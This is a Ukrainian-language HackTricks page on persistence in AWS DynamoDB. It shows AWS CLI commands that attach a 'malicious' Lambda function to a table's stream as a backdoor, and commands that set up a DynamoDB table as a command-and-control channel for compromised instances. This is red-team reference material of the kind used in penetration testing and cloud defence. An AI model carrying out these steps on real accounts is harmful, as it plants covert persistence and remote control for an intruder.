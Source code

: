 # AWS - Постійність DynamoDB

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Експерт з червоної команди HackTricks AWS)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити **рекламу вашої компанії на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв.

</details>

### DynamoDB

Для отримання додаткової інформації перейдіть за посиланням:

{% content-ref url="../aws-services/aws-databases/aws-dynamodb-enum.md" %}
[aws-dynamodb-enum.md](../aws-services/aws-databases/aws-dynamodb-enum.md)
{% endcontent-ref %}

### Тригери DynamoDB з Lambda Backdoor

Використовуючи тригери DynamoDB, атакувач може створити **приховану задню двері**, асоціюючи зловмисну функцію Lambda з таблицею. Функція Lambda може бути запущена при додаванні, зміні або видаленні елемента, що дозволяє атакувачеві виконувати довільний код в межах облікового запису AWS.

{% code overflow="wrap" %}
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
{% endcode %}

Для збереження постійності атакувальник може створювати або змінювати елементи в таблиці DynamoDB, що спричинить виклик зловмисної функції Lambda. Це дозволяє атакувальнику виконувати код у межах облікового запису AWS без прямої взаємодії з функцією Lambda.

### DynamoDB як канал C2

Атакувальник може використовувати таблицю DynamoDB як **канал керування та контролю (C2)**, створюючи елементи, що містять команди, та використовуючи компрометовані екземпляри або функції Lambda для отримання та виконання цих команд.
```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```
Компрометовані екземпляри або функції Lambda можуть періодично перевіряти таблицю C2 на наявність нових команд, виконувати їх і за потреби повідомляти результати назад до таблиці. Це дозволяє зловмиснику зберігати стійкість і контроль над компрометованими ресурсами.
